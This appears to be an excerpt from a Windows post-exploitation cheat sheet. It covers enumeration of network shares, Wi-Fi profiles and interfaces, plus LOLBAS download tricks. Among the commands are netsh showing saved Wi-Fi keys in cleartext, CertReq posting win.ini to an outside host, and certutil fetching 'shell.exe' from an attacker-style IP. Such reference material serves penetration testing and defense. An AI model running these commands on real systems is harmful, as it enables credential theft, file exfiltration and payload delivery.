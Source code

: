 
### Shares

```bash 
net view # Lists shared resources on the network
net view \\computer /ALL #List shares of a computer , ex net view \\PC-Name
net use x: \\computer\share #Mount the share locally 
net share #Lists shares on your local machine
```

### Wifi

```bash
netsh wlan show profile #AP SSID
netsh wlan show profile <SSID> key=clear #Get Cleartext Pass
```

### SNMP

```
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
```

### Network Interfaces

```bash
ipconfig /all
```

### ARP table

```bash
arp -A
```

## Download

Bitsadmin.exe

```
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

CertReq.exe

```
CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
```

Certutil.exe

```
certutil.exe -urlcache -split -f "http://10.10.14.13:8000/shell.exe" s.exe
```

**Find much more searching for `Download` in** [**https://lolbas-project.github.io**](https://lolbas-project.github.io/)
